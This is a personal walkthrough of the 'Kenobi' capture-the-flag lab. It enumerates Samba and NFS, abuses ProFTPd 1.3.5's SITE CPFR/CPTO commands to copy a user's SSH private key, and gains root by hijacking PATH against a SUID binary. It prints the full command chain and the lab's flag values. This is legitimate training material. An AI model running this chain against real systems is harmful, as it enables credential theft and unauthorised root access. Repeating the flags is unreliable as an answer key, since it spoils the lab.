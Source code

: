 # Kenobi
Enumerate Samba, manipulate a vulnerable versio of proftpd and escalate priveleges with path var manipulation

## Deploy the vulnerable machine
connect to vpn and deploy
### How many ports are open?
7

## Enumerating Samba for shares
### Using nmap command above, how many shares are found?
They supply us an nmap command and we have a list of shares as a result, 3 shares: ipc, anonymous and print.

## connect to anonymous, list files we can share, wha is the file?
`ls` shows us log.txt

## You can recursively download the smb share too - dl the file, what's the ftp port?
using smbget -R smb://<ip>/anonymous (auto sets our user as rob - probably be a bad thing to leave in logs if i was hacking illegally)
empty password as it's anonymous 
this downloads the log txt file from earlier to our machine and lets us `less` it. 
Big file, quite a bit of info in here. The FTP port is 21

### Earlier nmap scan shows port 111 running rpcbind - enumerate and show mount on this
This seems a bit paint by numbers, don't reall yknow why i'm doing this and just blindly following but let's go
`nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <ip>`
shows us /var is mounted

## Gain initial access with ProFtpd
### Lets get the version of ProFtpd. Use netcat to connect to the machine on the FTP port. What is the version?
here we just use `nc <ip> <port (21)>`
shows us the version is 1.3.5 and drops us in a cli session

### We can use searchsploit to find exploits for a particular software version. 
### Searchsploit is basically just a command line search tool for exploit-db.com 
### How many exploits are there for the ProFTPd running?
`searchsploit proftpd 1.3.5`
shows us 3 exploits, all to do with file copying

### We're now going to copy kenobi's private key using site cpfr and site cpto commands
### we found /var was a mount we could see, so we move kenobi's private key to the /var/tmp dir
Instructions just show the steps for this, while connected via netcat:
`SITE CPFR /home/kenobi/.ssh/id_rsa` < we found this location in the logs. Wonder if we could get etc/passwd and etc/shadow maybe with same method?
`SITE CPTO /var/tmp/id_rsa` < key should now be accessible via mounting

### Lets mount the /var/tmp directory to our machine
again, instructions show steps for this
`mkdir /mnt/kenobiNFS` < make a mount dir to use
`mount <machine ip>:/var /mnt/kenobiNFS` < mounts the remote folder to our machine
`ls -la /mnt/kenobiNFS` < confirm the contents
`cp /mnt/kenobiNFS/tmp/id_rsa .` < copies the key to our machine for use
Tried to ssh here, but get an error that the key's permissions are too open and I need to use the password
`sudo chmod 600 id_rsa` changes those permissions to owner RW only
`ssh -i id_rsa -l kenobi <machine ip>` logs us in to the machine via SSH.
`ls` to find the flag, `cat user.txt` to read it
'd0b0f3f53b6caa532a83915e19224899'

## Privilege Escalation with Path Variable Manipulation
## Find suid files - which is most out of the ordinary?
`find / -perm -u=s -type f 2>/dev/null` find suid files, send errors to the black hole
finds us a few interesting ones, chief unusual file is /usr/bin/menu

## run the binary, how many options appear?
3 options:
- status check
- kernel version
- ifconfig

Running strings on the binary shows us that the file isn't using a full path, ie 'curl' instead of '/usr/bin/curl' meaning it's using the path
path is writeable, so we can add another folder in there so that when menu calls curl as root, it'll call our alias instead.
`echo /bin/sh > curl` makes a file named curl, which is just invoking a shell
`chmod 777 curl`, allows all permissions for this file
`export PATH=/tmp:$PATH` adds our tmp folder to path
`/usr/bin/menu` invokes the menu, then when choosing status check (which invokes curl) - we'll have our root shell 
`cat /root/root.txt` gets us our flag and voila: '177b3cd8562289f37382721c28381f02'
